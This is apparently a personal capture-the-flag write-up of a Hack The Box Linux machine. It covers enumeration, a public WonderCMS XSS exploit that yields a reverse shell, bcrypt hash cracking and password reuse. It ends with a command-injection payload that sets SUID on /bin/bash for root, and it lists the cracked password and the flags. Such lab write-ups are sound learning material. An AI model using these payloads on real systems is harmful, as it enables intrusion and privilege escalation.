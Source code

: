 ```yaml
---
date: 2025-06-09
tags:
  - HTB
  - CFT_Box
OS: Linux
---
```



```table-of-contents
```



# Given
ip/scope: 10.10.11.28



# Steps

## Initial Enum
- nmap scan: `nmap -sCV -p- 10.10.11.28 -oN nmap.out`
- manual enumeration of the website to see if there are any exploitable areas like forms, links, etc. Got domain name, and the fact that contact works through php.
- add domain to `/etc/hosts`
- follow contact link to online contact form page.
	- contact form doesn't work, fails to send out anything.
- used feroxbuster to try and check for links/directories that aren't immediately apparent.
- Googled `turboblack 3.2.0 exploit`, and found a known vulnerability (CVE-2023-41425) which seems to reference an XSS vulnerability.
- Googled a bit for the default login for wondercms, and got:
	- `http://sea.htb/loginURL/index.php?page=loginURL`


## Vulnerability Found
- Used exploit found here: `https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE`
- XSS can be used to have the victim download a file from you, and through that establish a reverse shell.


## Initial Foothold
- exploit works by creating a python server on the attacking machine, and having the victim download a js file called `xss.js`.
- Attacker run a `netcat listener`, which will be pinged when the victim's machine downloads the `xss.js` file.

### Upgrading the Shell
```bash
# In reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```


## Privilege Escalation Part 1
- Looking around the files in the web server, there will be a file called `database.js` which contains a password hash for the CMS.
	- The password hash encrypted with the BCRYPT algorithm
	- There are escape characters in the hash which have to be taken out before decrypting it.
- Use Hashcat to crack the hash
	- `hashcat -m 3200 ./findings/hash.txt /usr/share/wordlists/rockyou.txt`
	- password is `mychemicalromance`
- Checked for repeated password use by trying to SSH into each user's account. 
	- amay's account can be accessed with the same password
	- User flag is found in Amay's home directory.


## Privilege Escalation part 2

### Enumerating the Server 
- Tried using the following on the system, and there weren't much avenues to priv esc"
	- `sudo -l`
	- `find / -type f -perm -4000 -o -perm -6000 2>/dev/null`
- Checked for any port activity on the machine, and found 2 possible ports running on the loopback interface of the machine
	- `netstat -tulpen`
- One of them gives an unauthorized error when you curl to it:
	- `curl 127.0.0.1:39665`
- The other port (8080) doesn't give any error.
- We can't seem to enumerate what's on 8080 easily, so we use port forwarding
	- `ssh amay@10.10.14.28 -L 8080:127.0.0.1:8080`
- Checking this port out on a browser gives us a monitoring website that's running on the same port in the pivot machine. 
- The monitoring site allows users to analyze log files by selecting them from a dropdown and pressing the Analyze button.
- Analyze the POST request made to the server using `burpsuite` and notice that it is trying to call a log file, where the path is given as part of the request's parameters.
	- We can potentially change this to view whatever file we want to.


### Root Shell
- We can also try to inject a command into the `log_file` property in order to perhaps elevate ourself (amay) to root.
	- `chmod u+s /bin/bash`
- We can url encode the spaces, and add this to the parameter:
	- `log_file=;chmod+u%2Bs+/bin/bash&analyze_log=`
- This should work when the POST request is sent. 
- We can then ssh in as amay, and look at the permissions of the `/bin/bash` binary, and it should have the SUID enabled.
- Launch the bash terminal with the `-p` flag to enable privileged mode and NOT inherit shell functions from the environment
	- `/bin/bash -p`
-



# Findings
- nmap scan: 
	- open ports: ssh(22), http(80)
	- OS: Linux
- website contact form works on a php file.
- website contact link also has domain name of box, which is `sea.htb`
- most files were off limits, except for:

```
200      GET        1l        1w        6c http://sea.htb/themes/bike/version
200      GET       21l      168w     1067c http://sea.htb/themes/bike/LICENSE
200      GET        1l        9w       66c http://sea.htb/themes/bike/summary
```

- Going into LICENSE, and Summary gives you a theme name and version `turboblack 3.2.0`
- Found exploit that uses xss to create a reverse shell on the site
- Found hashed CMS login password
- Found 2 users:
	- amay
	- geo
- Found open port in web server on tcp 8080.
- LFI on monitoringsite that's open on port 8080. Allows you to access binaries, and escalate privileges



# Creds
Creds for privesc/lateral movement
- cms login hash: `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`
	- Note the escape characters in the hash above
- `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance`



# Flags
- User: 5ef514189276ffb34d7c702441e763f8
- Root: 2b877443cea9411a76939528ee117502
